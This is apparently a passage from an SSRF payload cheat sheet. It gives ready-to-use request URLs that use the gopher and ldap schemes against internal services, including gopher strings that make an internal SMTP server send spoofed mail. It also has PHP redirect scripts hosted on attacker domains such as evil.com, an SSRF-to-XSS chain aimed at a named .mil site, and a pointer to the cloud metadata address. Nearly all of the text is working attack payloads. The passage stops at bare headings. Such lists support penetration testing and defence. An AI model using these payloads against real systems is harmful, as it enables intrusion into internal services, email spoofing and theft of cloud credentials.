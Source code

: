 ssrf.php?url=ldap://localhost:11211/%0astats%0aquit
Gopher
ssrf.php?url=gopher://127.0.0.1:25/xHELO%20localhost%250d%250aMAIL%20FROM%3A%3Chacker@site.com%3E%250d%250aRCPT%20TO%3A%3Cvictim@site.com%3E%250d%250aDATA%250d%250aFrom%3A%20%5BHacker%5D%20%3Chacker@site.com%3E%250d%250aTo%3A%20%3Cvictime@site.com%3E%250d%250aDate%3A%20Tue%2C%2015%20Sep%202017%2017%3A20%3A26%20-0400%250d%250aSubject%3A%20AH%20AH%20AH%250d%250a%250d%250aYou%20didn%27t%20say%20the%20magic%20word%20%21%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a
will make a request like
HELO localhost
MAIL FROM:<hacker@site.com>
RCPT TO:<victim@site.com>
DATA
From: [Hacker] <hacker@site.com>
To: <victime@site.com>
Date: Tue, 15 Sep 2017 17:20:26 -0400
Subject: Ah Ah AH
You didn't say the magic word !
.
QUIT
Gopher HTTP
gopher://<proxyserver>:8080/_GET http://<attacker:80>/x HTTP/1.1%0A%0A
gopher://<proxyserver>:8080/_POST%20http://<attacker>:80/x%20HTTP/1.1%0ACookie:%20eatme%0A%0AI+am+a+post+body
Gopher SMTP — Back connect to 1337
Content of evil.com/redirect.php:
<?php
header("Location: gopher://hack3r.site:1337/_SSRF%0ATest!");
?>
Now query it.
https://example.com/?q=http://evil.com/redirect.php.
Gopher SMTP — send a mail
Content of evil.com/redirect.php:
<?php
        $commands = array(
                'HELO victim.com',
                'MAIL FROM: <admin@victim.com>',
                'RCPT To: <sxcurity@oou.us>',
                'DATA',
                'Subject: @sxcurity!',
                'Corben was here, woot woot!',
                '.'
        );
        $payload = implode('%0A', $commands);
        header('Location: gopher://0:25/_'.$payload);
?>
SSRF to XSS
by @D0rkerDevil & @alyssa.o.herrera

http://brutelogic.com.br/poc.svg -> simple alert
https://website.mil/plugins/servlet/oauth/users/icon-uri?consumerUri= -> simple ssrf
https://website.mil/plugins/servlet/oauth/users/icon-uri?consumerUri=http://brutelogic.com.br/poc.svg
SSRF URL for Cloud Instances
SSRF URL for AWS Bucket
Docs Interesting path to look for at http://169.254.169.254
